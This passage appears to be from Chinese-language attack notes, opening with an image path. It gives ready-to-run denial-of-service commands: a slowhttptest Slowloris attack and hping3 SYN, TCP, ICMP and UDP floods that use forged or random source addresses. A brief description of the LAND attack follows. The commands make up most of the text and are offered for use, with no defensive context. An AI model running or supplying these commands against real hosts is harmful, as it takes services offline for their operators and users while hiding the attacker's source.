 ```
# -u URL
# -f 需要什么样的头
# -p 默认几秒没相应即判定已死亡
```

**Slowloris**攻击：

```
slowhttptest -c 2000 -H -g -o my_header_states -i 10 -r 1000 -t GET -u http://192.168.1.214 -x 24 -p 3
```



### hping3:

定制发送任何的数据包

```
-a   #伪造源地址
-q   #不返回
-n   #不解析域名
-s   #源端口
-d   #字节数
-p   #端口
--flood   #以flood方式攻击
```



syn-flood

```
hping3 -c 3000 -d 120 -S -w 64 -p 80 --flood --rand-source [目标ip]
hping3 -S -P -p 80 --flood --rand-source [目标ip]
```



tcp-flood

```
hping3 -SARUFP -p 80 --flood --rand-source [目标ip]
```



icmp-flood

```
hping3 -q -n -a 1.1.1.1 --icmp -d 56 --flood [目标ip]
```



udp-flood

```
hping3 -a 1.1.1.1 --udp -s 53 -d 100 -p 53 --flood [目标ip]
```



LAND
特殊的syn-flood攻击
源地址和目的地址都是受害者，自己和自己完成3次握手
